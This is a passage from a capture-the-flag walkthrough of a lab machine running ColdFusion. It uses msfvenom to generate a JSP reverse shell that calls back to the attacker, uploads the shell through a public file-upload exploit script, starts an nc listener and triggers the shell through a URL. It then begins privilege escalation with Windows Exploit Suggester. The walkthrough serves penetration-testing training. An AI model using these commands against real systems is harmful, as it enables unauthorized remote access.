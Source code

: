 It is worth noting that in the Administrator GUI, there is a Debugging & Logging &gt; Scheduled Tasks category that would allow us to upload files.

![](https://miro.medium.com/max/971/1*HqvdBk09BVtq1448nzEWFA.png)

Instead, I’m going to use arrexal’s exploit.

First, generate a JSP reverse shell that will be run and served by the server.

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=4444 > shell.jsp
```

Next, run arrexal’s exploit.

```text
python arb-file-exploit.py 10.10.10.11 8500 shell.jsp
```

The exploit tells us where the exploit file was saved.

![](https://miro.medium.com/max/818/1*wcq5Sd42-paHcYnVDMBb9A.png)

Next, start up a listener on the attack machine.

```text
nc -nlvp 4444
```

Then visit the location of the exploit in the browser to run the shell.jsp file.

```text
http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

We have a shell!

![](https://miro.medium.com/max/639/1*yLOirVjgdCbJH-Hkg4kA1A.png)

Grab the user flag.

![](https://miro.medium.com/max/514/1*LCJvXZB-NSDjz-g_AxANog.png)

This is a non-privileged shell, so we’ll have to find a way to escalate privileges.

## Privilege Escalation <a id="48ca"></a>

Let’s find out more about the system.

![](https://miro.medium.com/max/844/1*26r7_9b7OUCDk_v9_uXlxA.png)

It’s running Microsoft Windows 2008 and has not had any updates!

Copy the output of the systeminfo command and save it in a file. We’ll use Windows Exploit Suggester to identify any missing patches that could potentially allow us to escalate privileges.

First update the database.

```text
./windows-exploit-suggester.py --update
```
